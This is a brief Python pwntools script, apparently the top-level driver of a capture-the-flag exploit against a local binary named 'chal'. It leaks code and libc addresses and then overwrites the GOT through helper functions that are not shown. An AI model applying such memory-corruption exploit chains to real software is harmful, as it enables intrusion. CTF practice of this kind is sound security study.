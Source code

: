 ```python

exe=ELF("./chal")
libc=ELF("./libc.so.6")

p=process("./chal")
p.recvuntil(b"Port is ")
SERVICE_PORT=int(p.recvuntil(b"\n",drop=True))
print("remote port "+str(SERVICE_PORT))
leak_text(p)
leak_libc(p)
rewrite_got(p)
p.close()

```